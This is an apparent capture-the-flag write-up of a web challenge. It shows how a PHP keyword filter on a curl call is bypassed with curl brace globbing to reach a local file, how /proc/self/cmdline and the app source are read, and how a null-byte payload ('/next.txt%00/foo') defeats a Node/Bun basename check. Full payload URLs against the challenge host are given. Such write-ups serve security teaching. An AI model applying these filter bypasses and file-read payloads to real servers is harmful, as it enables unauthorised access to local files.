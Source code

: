 given code:
```
highlight_file(__FILE__);
$url = 'file:///hi.txt';
if(
    array_key_exists('x', $_GET) &&
    !str_contains(strtolower($_GET['x']),'file') && 
    !str_contains(strtolower($_GET['x']),'next')
){
    $url = $_GET['x'];
}
system('curl '.escapeshellarg($url));
```
+ This script checks If 'x' exists in the GET parameters and it does not contain the words "file" or "next" (case-insensitive), it assigns the value of 'x' to the $url variable. Finally, it uses the system function to execute a curl command on the $url.
+ The general idea for this step is to bypass these conditions to construct a string equivalent to `file:///next.txt`.
  ![image](https://github.com/av4nth1ka/My-Writeups/assets/80388135/97b38eb7-82e8-4fc7-a723-1533dea97b6a)
+ Looking at the manpage of curl command we can see the following:
![image](https://github.com/av4nth1ka/My-Writeups/assets/80388135/ae34353d-ee6c-478a-9bd2-5fa39424b4a1)

+ Curly braces specify a list of strings that can be matched like in this example `http://site.{one,two,three}.com`. We can construct a similar list with one word that is a substring for `file` and `next` to bypass the check:
`http://45.147.231.180:8000/?x={f}ile:///{n}ext.txt`
+ When we gave the above url, it worked out and told to go to the mentioned url
+ and then we got something like this:
did you know i can read files?? amazing right,,, maybe try /39c8e…/read/?file=/proc/self/cmdline’
After going to /proc/self/cmdline, we get this L2Jpbi9idW4tMS4wLjIAL2FwcC9pbmRleC5qcwA=
+ after decoding: `/bin/bun-1.0.2�/app/index.js�`
+ This file `/proc/self/cmdline` provides information about command line argument that was used to launch currently executing process. We can read them by changing the URL that we want to read. `/app/index.js` seems useful to figure out what to do next:
```
const fs = require('node:fs');
const path = require('path')

/*
I wonder what is inside /next.txt  
*/

const secret = '39c8e9...'
const server = Bun.serve({
  port: 8000,
  fetch(req) {
  	let url = new URL(req.url);
  	let pname = url.pathname;
  	if(pname.startsWith(`/${secret}`)){
      if(pname.startsWith(`/${secret}/read`)){
        try{
          let fpath = url.searchParams.get('file');
          console.log(path.basename(fpath));
          if(path.basename(fpath).indexOf('next') == -1){ 
            return new Response(fs.readFileSync(fpath).toString('base64'));
          } else {
            return new Response('no way');
          }
        } catch(e){ }
        return new Response("Couldn't read your file :(");
      }
      return new Response(`did you know i can read files?? amazing right,,, maybe try /${secret}/read/?file=/proc/self/cmdline`);
    }
    return 
  }
});
```
+The hint says that we have to read `next.txt` file. This script runs a server that fetches methods to handle incoming requests. We parse a URL. Then, search for file arguments in the URL. Next, we have interesting fragment:
+ `‘ if(path.basename(fpath).indexOf('next') == -1) ’. `
+ this condition checks if we do not try to read a `next.txt` file. Then, if the condition is met we read a file that is base64 encoded and returned in a request.
+ We need to find a string that meets the condition, but it somehow treated differently by `fs.readFileSync` and `basename`.
+ ystem calls take NULL-terminated strings, so we can wonder how the NULL character (`%00`) is handled. If there is no special handing in Node.js standard library, it might just make the system call ignore the rest of the string
+ final payload:
+ 'http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/next.txt%00/foo'
+ basename(“/next.txt\0/foo”) = “/foo”, so the path passes the filter.
